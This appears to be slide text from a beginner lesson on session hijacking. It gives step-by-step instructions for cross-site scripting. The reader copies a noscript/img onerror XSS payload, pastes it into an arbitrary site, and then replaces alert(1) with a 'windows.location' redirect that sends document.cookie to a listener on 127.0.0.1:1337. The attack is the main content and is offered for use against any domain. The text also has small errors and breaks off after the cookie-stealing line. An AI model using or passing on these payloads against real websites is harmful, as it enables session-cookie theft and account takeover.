

DAY -5
Session hijacking attack
Step -1
Go to browser and search Crosssite scripting clean sheet Then select tags Then copy the code
<noscript><img title="</noscript><img src onerror=alert(1)>"></noscript>
Step -2
Then take a domain name and search it in new tab
Then paste the code in that site
<noscript><img title="</noscript><img src onerror=alert(1)>"></noscript>
Then you will get a popup raised and gives 1
After that again search for
That code this time remove alert(1)
And replace it by
windows.location='http://127.0.0.1:1337/?cookie='+document.cookie
i